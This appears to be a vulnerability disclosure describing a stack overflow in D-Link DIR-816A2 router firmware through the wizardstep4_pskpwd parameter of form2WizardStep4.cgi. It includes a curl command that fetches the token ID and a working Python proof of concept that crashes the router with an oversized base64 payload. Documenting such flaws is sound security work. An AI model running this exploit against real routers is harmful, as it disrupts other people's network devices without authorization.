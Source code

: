 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2WizardStep4.cgi.  The contents obtained by the wizardstep4_pskpwd parameter are passed to V9, and then the contents matched by V9 are decoded and put into the V15 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests
import base64

tokenid = 'xxx'

url = 'http://192.168.0.1/goform/form2WizardStep4.cgi'

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid': tokenid,
    'wizardstep4_next': 'a',
    'wizardstep4_wlanDisabled': 'b',
    'wizardstep4_ssid': 'c',
    'wizardstep4_sec': 'd',
    'wizardstep4_pskpwd': payload,
    'wizardstep4_chanwid': 'e'
}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash
